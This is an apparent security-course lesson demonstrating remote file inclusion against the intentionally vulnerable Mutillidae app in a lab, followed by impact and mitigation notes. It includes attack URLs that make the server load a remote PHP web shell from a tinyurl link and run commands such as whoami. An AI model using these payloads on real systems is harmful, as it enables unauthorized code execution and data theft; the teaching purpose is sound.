    - Broken access control 

    - Sensitive data exposure 
    
    - Security misconfiguration 

The best way to learn how to do a remote file inclusion attack is to test it directly on a working web application.

We will conduct a demonstration of RFI by completing the following three steps:

  - Revisit how a web application uses parameters as intended.

  - Modify the parameters to point to a remote site to cause unintended consequences.

  - Modify the URL to run this remote malicious PHP script.

#### Remote File Inclusion Demonstration Setup

- For this demonstration, we will be using the vulnerable application Mutillidae.

  - For the first time accessing, enter the following URL: <http://192.168.13.27/mutillidae>.

  - You will see a page that says, "The Database appears to be offline."

  - Click the link to **setup/reset the DB** on item #3 on this webpage.
  
  - A pop-up will confirm that the database setup has been completed. Select OK to access Mutillidae.

  - Access the Arbitrary File Inclusion page by entering the following URL: <http://192.168.13.27/index.php?page=arbitrary-file-inclusion.php>.

  - The page should look like the following image: 

     

#### File Inclusion Demonstration 

1. For this demonstration, we are on another PHP webpage. It is designed to display information about the two types of file inclusion that we have learned today.
 
   - Direct attention to the URL: <http://192.168.13.27/mutillidae/index.php?page=arbitrary-file-inclusion.php>.

      - `http://192.168.13.27/` is the protocol and the IP of the web server.

      - `index.php` is the PHP resource that is being accessed.
      
        - `index.php` has back-end PHP code designed to access another back-end resource identified with a parameter. 

      - `?page=arbitrary-file-inclusion.php` is the parameter, and it states that this current `page` should use the resource `arbitrary-file-inclusion.php`.
 
       
    
   - The intended purpose of this page is to run PHP code that uses a parameter to indicate which back-end resource should be used to display the page contents to the user. The resource is another PHP page: `arbitrary-file-inclusion.php`.

2. Modify the parameters to point to a remote site. Let's start with something safe, like Google.com.

    - Return to the webpage and point to the URL <http://192.168.13.27/index.php?page=arbitrary-file-inclusion.php>.
  
    - We will now modify the parameter of the URL to point to a REMOTE resource. 
   
    - To modify this, we have to change the **resource of the parameter** to the whole webpage, including the protocol.
      
      - Point to the following image to show what was changed:
  
       
  
    - Change the URL on the browser to the following and press Enter: <http://192.168.13.27/index.php?page=http://google.com>.
  
        
  
    - Now instead of accessing the intended local resource of `arbitrary-file-inclusion.php`, this webpage is accessing an unintended remote resource of Google.com within its webpage:
  
       
   
3. Modify the URL to run a remote malicious PHP script.

   - Since we now know that we can modify the resource that the page accesses, we will explore what will happen if the new resource is a remote malicious script rather than a webpage.
  
   - Open the following webpage: <https://tinyurl.com/y498epmz>.
 
     - This is a webpage that was designed for this class and contains raw PHP code.

     - Note that this PHP script might look familiar. This is the same script that we used in the previous LFI lesson, except that it is now hosted on a public webpage:
   
       
 
   - Let's now check whether we can use this webpage as the new remote resource.

    - Return to the browser and change the URL to the following: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz>.
  
      
  
   - Press Enter. Similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        

   - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
       
 
   - Run `ls` to show that almost any command-line command can be run: <http://192.168.13.27/index.php?page=https://tinyurl.com/y498epmz&cmd=ls>.
 
#### Demonstration Summary 
 
Being able to successfully change the parameter of the URL to point to a remote script and then subsequently running this script indicates that this web application is vulnerable to **remote file inclusion**.

- Also note that the ability to arbitrarily execute command-line code with the remote script means this web application is also vulnerable to **remote code execution**.

#### Real-World Challenges

**Limitations of the RFI attack**: To conduct this attack successfully, the web server not only needs to run PHP but also needs to enable a configuration setting to allow external URLs. Many web servers that run PHP do not have this configuration enabled.

**Variety of attacks**: The demonstration illustrated using one type of malicious script and two command-line commands.
  
  - Thousands of malicious scripts can be uploaded, and many malicious commands can be run.
  
  - The attack method used the PHP language, but this attack can also be accomplished with other languages, such as ASP. 
              
#### Impact

If a malicious actor can remotely access a malicious script, they can do the following:

- View confidential files or data.

- Modify or delete confidential files or data.

- Modify or delete critical files to cause system disruptions.

#### Mitigation Methods

The best way to protect from RFI is to avoid passing user-submitted input to your web server. This can be accomplished by using input validation.

#### Remote File Inclusion Summary

- **The intended purpose of the original function**: Web applications can use parameters in their URL to indicate the back-end server to access a certain resource.

- **The vulnerability and method of exploit**: Remote file inclusion is a vulnerability in which a malicious user can modify this parameter so that the back-end server accesses a malicious remote resource, such as a script.

- **The unintended consequence of the exploit**: After the malicious remote script has been referenced, a malicious user can run the script to cause unintended consequences.

- **The mitigation of the vulnerability**: Use input validation to avoid malicious submitted input, such as a modified parameter referencing an remote resource.

- **The potential impact of the exploit**: A malicious actor can view or modify confidential data or system files or potentially cause system outages.
 
Review the differences between local file inclusion and remote file inclusion:

- Both of these attacks using back-end components of a web server run unintended scripts, but they have some differences:

  - **Local file inclusion** scripts are local to the target server.

  - **Remote file inclusion** scripts are remote to the target server.
 
      
## 10. Remote File Inclusion Activity 

- [Activity File: Remote File Inclusion](Activities/10_Remote_File_Inclusion/Unsolved/README.md)

### 11. Remote File Inclusion Activity Review

- [Solution Guide: Remote File Inclusion](Activities/10_Remote_File_Inclusion/Solved/README.md)

___

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
